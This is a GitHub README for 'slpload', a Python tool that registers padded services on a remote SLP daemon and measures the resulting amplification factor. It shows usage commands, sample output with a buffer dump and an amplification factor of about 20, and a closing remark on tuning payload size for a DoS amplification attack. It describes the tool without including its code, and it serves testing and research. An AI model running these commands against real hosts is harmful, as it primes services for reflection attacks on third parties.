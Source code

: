 # SLPLOAD

Testtool for amplification factor of slpd daemon. 

## Usage

### Show all modes
With the -m? option you can list all supported modes.

```
./slpload.py -m?
Supported modes:

        one-shot - load one-time data into svc
        load-test - try to load as much data as possible to service and calc ampfactor
        check - check data in default registry
```

### Test the maximum size of remote slpd buffer
Load test until remote buffer is filled. The command sets the buffer fillup to 1250bytes, registered lifetime to 10000 seconds and a timeout of 2s. 

./slpload.py -T 10000 -s 1250 -t 2 -l 192.168.0.109 -m load-test

### Send one fillup request only, 512 bytes payload, 1 second timeout and 60 seconds registered lifetime
```
./slpload.py -T 60 -s 512 -t 1 -l 192.168.0.110 -m one-shot
[+] Preparing packet
[+] Sending packet Register V2...
[+] Registration accepted. 
[+] Loaded up with 579 bytes
```

### Check remote registered data

```
./slpload.py -l 192.168.0.110 -m check                    
[+] Sending service type  request v2...
[+] Data Buffer: 
b'\x02\n\x00\x02C\x00\x00\x00\x00\x00\x83\xf8\x00\x02en\x00\x00\x02/service:VMwareInfrastructure,service:wbem:https,slpLoadTest://alF4yQIL:31337/Y40iEypDw8zSKwZPg3tuyrjnpLrGkuYH1GQyDuQgQC4EEAYE8Nf5hKVufZkboVoxLZNxhPYUH4WAqbfqQyGpg4jVSfUR6HX3utbdZ7Vvhi5qs9fW7NyjrQqTZxjNK8pHY40iEypDw8zSKwZPg3tuyrjnpLrGkuYH1GQyDuQgQC4EEAYE8Nf5hKVufZkboVoxLZNxhPYUH4WAqbfqQyGpg4jVSfUR6HX3utbdZ7Vvhi5qs9fW7NyjrQqTZxjNK8pHY40iEypDw8zSKwZPg3tuyrjnpLrGkuYH1GQyDuQgQC4EEAYE8Nf5hKVufZkboVoxLZNxhPYUH4WAqbfqQyGpg4jVSfUR6HX3utbdZ7Vvhi5qs9fW7NyjrQqTZxjNK8pHY40iEypDw8zSKwZPg3tuyrjnpLrGkuYH1GQyDuQgQC4EEAYE8Nf5hKVufZkboVoxLZNxhPYUH4WAqbfqQyGpg4jVSfUR6HX3ut'
[!] Host: 192.168.0.110 Buffer Size: 579 Ampfactor: 19.96551724137931
```

## Outro

On some devices / SLP implementations, the daemon stops filling the buffer after a certain point and either maintains the size or reverts to some default value.
For a DoS amplification attack and in order to optimize the amplification to the maximum an attacker just has to adjust the payload size for the device he is populating. 

May the packets be with you.

# Author

Marco Lux
